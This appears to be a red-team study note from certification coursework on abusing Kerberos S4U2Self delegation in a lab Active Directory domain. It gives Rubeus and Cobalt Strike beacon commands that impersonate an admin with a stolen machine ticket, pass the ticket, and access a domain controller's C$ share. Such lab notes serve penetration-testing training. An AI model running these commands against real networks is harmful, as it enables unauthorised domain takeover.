 
There are two S4U (Service for User) extensions.  S4U2Self (Service for User to Self) and S4U2Proxy (Service for User to Proxy).  

`S4U2Self` allows a service to obtain a TGS to itself on behalf of a user.
`S4U2Proxy` allows the service to obtain a TGS on behalf of a user to a second service.

#### 🖊️ Unconstrained delegation machine ticket

If you obtained a TGT via [[Unconstrained Delegation]] but for a machine account rather than a user account, you will want to abuse S4U2Self obtaining a TGS as a user (local admin) in the objective machine. All you need is the username since you already have a ticket.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap` 

Here we are asking for a TGS in the name of a local admin in the objective machine, the user: dc-2$ , and using the ticket we obtained in the [[Unconstrained Delegation]]

2) Once you get the new ticket, you can do some [[Pass the Ticket]]

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=`
```
beacon> steal_token 2664
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```



### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 09:47
🏷️ tags: #redteam #crto 

---

